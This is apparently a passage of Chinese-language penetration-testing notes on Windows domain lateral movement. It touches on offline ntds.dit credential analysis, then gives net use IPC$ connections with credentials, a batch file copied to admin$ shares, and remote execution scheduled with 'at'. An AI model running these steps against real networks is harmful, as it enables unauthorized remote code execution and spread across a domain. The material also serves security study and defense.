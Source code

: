 ![](/sourcepictures/2017/11/06/5/18.jpg)

这个只是离线分析了ntds.dit文件,其实也可以在线操作,=。=,不过感觉实战中遇到的会比较少,毕竟现在主流是win08为域控(以后这个倒不失为一个好方法)
更多详情参考三好学生大牛的文章：http://drops.wooyun.org/tips/10181

***

### 远程连接&&执行程序  
####at&schtasks  
需要开启Task Scheduler服务  
经典流程：  
```
1、进行一个连接
net use \\10.10.24.44\ipc$ 密码 /user:账号

2、复制本地文件到10.10.24.44的share共享目录(一般是放入admin$这个共享地方(也就是c:\winnt\system32\)，或者c$，d$)
copy 4.bat \\10.10.24.44\share

3、查看10.10.24.44服务器的时间
net time \\10.10.24.44

4、添加at任务执行
at \\10.10.24.44 6:21 \\10.10.24.44\share\4.bat
这个6:21指的是上午的时间，如果想添加下午的，则是6.21PM

5、查看添加的所有at任务列表(如果执行了得，就不会显示)
at \\10.10.24.44
```
其他命令：  
```
查看所有连接
net use
删除连接
net use \\10.10.24.44\share /del

映射共享磁盘到本地
net use z: \\IP\c$ "密码" /user:"用户名"
删除共享映射
net use c: /del
net use * /del
```
